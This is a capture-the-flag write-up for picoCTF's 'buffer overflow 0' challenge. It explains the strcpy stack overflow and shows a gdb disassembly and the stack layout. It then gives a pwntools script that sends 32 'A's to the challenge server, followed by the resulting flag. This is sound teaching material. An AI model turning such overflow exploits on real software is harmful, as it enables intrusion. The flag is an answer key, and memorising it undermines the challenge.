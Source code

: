 # buffer overflow 0

**Author:** [yairp03](https://github.com/yairp03)  
**Category:** Binary Exploitation  
**Points:** 100

# Challenge

## Description

Smash the stack
Let's start off simple, can you overflow the correct buffer? The program is available [here](./vuln). You can view source [here](./vuln.c). And connect with it using:
`nc saturn.picoctf.net 64712`

## Source

[vuln.c](./vuln.c) (C source)  
[vuln](./vuln) (32-bit ELF)

# Solution

Reading the code, we can see that the flag is printed from the `sigsegv_handler` function. This function is being set as the handler for the `SIGSEGV` signal, which is triggered when the program tries to access an invalid memory address. Let's look at the `vuln()` function:

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

It takes a string as input, and copies it to a buffer of size 16. This is a classic [buffer overflow vulnerability](/Guides/Vulnerabilities/Buffer%20Overflow%20Vulnerability.md). If we pass a string longer than 16 characters, we will overflow the buffer, and overwrite variables on the stack, more specifically, the return address of the function. Let's look at the `vuln()` call in `main()`:

```c
int main(int argc, char **argv){
  ...
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  ...
}
```

The program reads a string from the user, into a buffer of size 100, and passes it to `vuln()`. That should be more than enough for us to trigger a buffer overflow. Let's look at the relative position of `buf2` and the return address on the stack:

```bash
$ gdb ./vuln
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x00001353 <+0>:     endbr32
   0x00001357 <+4>:     push   ebp
   0x00001358 <+5>:     mov    ebp,esp
   0x0000135a <+7>:     push   ebx
   0x0000135b <+8>:     sub    esp,0x14
   0x0000135e <+11>:    call   0x149b <__x86.get_pc_thunk.ax>
   0x00001363 <+16>:    add    eax,0x2c49
   0x00001368 <+21>:    sub    esp,0x8
   0x0000136b <+24>:    push   DWORD PTR [ebp+0x8]
   0x0000136e <+27>:    lea    edx,[ebp-0x18]
   0x00001371 <+30>:    push   edx
   0x00001372 <+31>:    mov    ebx,eax
   0x00001374 <+33>:    call   0x1170 <strcpy@plt>
   0x00001379 <+38>:    add    esp,0x10
   0x0000137c <+41>:    nop
   0x0000137d <+42>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x00001380 <+45>:    leave
   0x00001381 <+46>:    ret
End of assembler dump.
```

On lines `<+27>`-`<+30>`, we can see the function loads the memory address of `[ebp-0x18]` to the stack, as an argument to `strcpy`. That means the stack looks like that:

```
[ebp-0x18]  buf2 (size 16)
[ebp-0x08]  ?
[ebp-0x04]  ?
[ebp+0x00]  old ebp (line <+4>)
[ebp+0x04]  return address
```

So, in order to overwrite the return address, we need to pass a string at least 32 characters long (16 + 4 + 4 + 4 + 4), and the last 4 characters should be an invalid memory address, so that the program will try to access it, and trigger a `SIGSEGV` signal. Entering a string filled with `A`'s should do the trick:

```python
from pwn import *

conn = remote('saturn.picoctf.net', 64712)

conn.sendlineafter(b'Input: ', b'A' * 32)
flag = conn.recvline(False).decode()

print('Flag:', flag)
```

```
Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

**The Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`
